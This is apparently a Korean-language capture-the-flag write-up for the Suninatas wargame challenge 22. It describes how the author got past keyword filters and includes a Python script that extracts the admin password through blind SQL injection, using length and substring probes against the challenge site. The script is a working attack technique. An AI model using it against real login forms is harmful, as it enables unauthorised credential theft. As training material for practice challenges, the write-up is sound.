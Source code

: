 ```yaml
---
title: "Suninatas 22 Write up"
categories: SQLi
tags: [blindSQLi, wargame, sunitas]
---
```


Suninatas 22 Write-Up
---------------------

## 문제 분석

문제에 접속하면 아래와 같은 로그인 창과 필터링 되는 단어들을 확인할 수 있었습니다.
필터링 내용들을 살펴보면 여태까지 봤던 문제 중 가장 많은 것을 볼 수 있었습니다.

![Suninatas_22_Main](https://github.com/Jun-Project-LAB/Jun-Project-LAB.github.io/blob/main/_image/suninatas_22_main.png?raw=true)

문제의 풀이 조건에 대해 알 필요가 있으므로 먼저 개발자 도구를 통해 소스코드를 확인한 결과
 주석에 admin 계정으로 로그인하라는 조건이 있는 것을 찾을 수 있었습니다.

![Suninatas_22_source](https://github.com/Jun-Project-LAB/Jun-Project-LAB.github.io/blob/main/_image/suninatas_22_source.png?raw=true)

따라서 이 문제의 flag는 admin 계정의 password 혹은 로그인 할 경우 얻을 수 있는 것으로 짐작할 수 있었습니다.

또한 테스트하기 위한 계정으로 guest/guest 계정이 있다고 하여 해당 계정을 이용하여 로그인 해보았습니다.

![Suninatas_22_guest](https://raw.githubusercontent.com/Jun-Project-LAB/Jun-Project-LAB.github.io/main/_image/sunintas_22_guest.png)

사진을 보면 알 수 있듯이 OK guest라는 문구가 출력되는 것을 알 수 있었고 로그인에 성공할 경우 OK 라고 뜨는 것을 단서로 하여 blind SQL Injection을 
시도하였습니다.

* * *

## Qeury Statement 작성

SQL Injection에 주로 사용되는 keyword들이 대거 필터링 되었기에 쉽게 풀이에 접근하지 못하였습니다.
제시되어 있는 키워드 이외에도 '(Single Quote), substring과 같은 keyword도 입력하려고 할 경우 no hack이라고 출력되었기에
 해결 방법을 찾지 못하였습니다. 

Null byte 삽입과 같은 방법으로 필터링을 우회할 수 있는 몇 가지 방법을 찾기도 하였으나 이를 공격으로 연계하지를 못하였습니다.
 다른 Write-Up을 찾아본 결과 생각보다 간단한 방법으로 풀이하였는데 한 가지 이해가 되지 않은 부분은 직접 GET 형식에 맞춰 작성한 것과
 id, pw 입력란에 입력한 내용이 필터링 대상이 다른 것이었습니다. 대표적으로 id, pw란에서는 white space가 필터링 대상이었는데 GET 형식으로 
직접 url란에 입력한 경우 white space가 필터링 되지 않았기 때문입니다.

* * *

어찌되었든 해결 방법에 대해서는 알았으므로 자동화 코드의 경우 직접 작성해보았습니다. password의 길이를 알아내는 부분에서 최대 길이를 15로 잡은 것은
 html code 내에서 pw 입력란을 최대 15자로 제한하였기 때문입니다. 코드의 경우 아래와 같이 작성했습니다.

>``` python
#!/usr/bin/python

import requests as req

cookies = {"ASP.NET_SessionId":"sbd2hldgbghcshskmhnubw2g", "ASPSESSIONIDSADBSAQD":"ONINCAKAHJGGDDMKBANMGNNP"}
url = "http://suninatas.com/challenge/web22/web22.asp"
maxpass = 15
length = 0
password = ""
parameter = {"pw":"haha"}

for i in range(maxpass):
    parameter['id']="admin' and len(pw)={}-- ".format(i+1)
    response = req.get(url, cookies=cookies, params=parameter)

    if response.text.find("OK") != -1:
        length = i+1
        print("Password length is {}".format(length))

for i in range(1, length+1):
    for j in range(32, 128):
        parameter['id'] = "admin' and substring(pw, {0}, 1)='{1}'--".format(i, chr(j))
        response = req.get(url, cookies=cookies, params=parameter)
        if response.text.find("OK") != -1:
            password += chr(j)

print("admin's password is " + password)
```

session의 경우 자신의 환경에 맞게 변경하여 사용하면 됩니다. 코드를 작성할 때 제대로 값이 출력되지 않아서 잘못 작성한 줄 알았었는데, 
문자를 비교하는 과정에서 이를 ' '로 묶어주지 않아서 숫자 값만 제대로 비교하고 문자 값의 경우 제대로 비교하지 못했던 오류가 있었습니다.
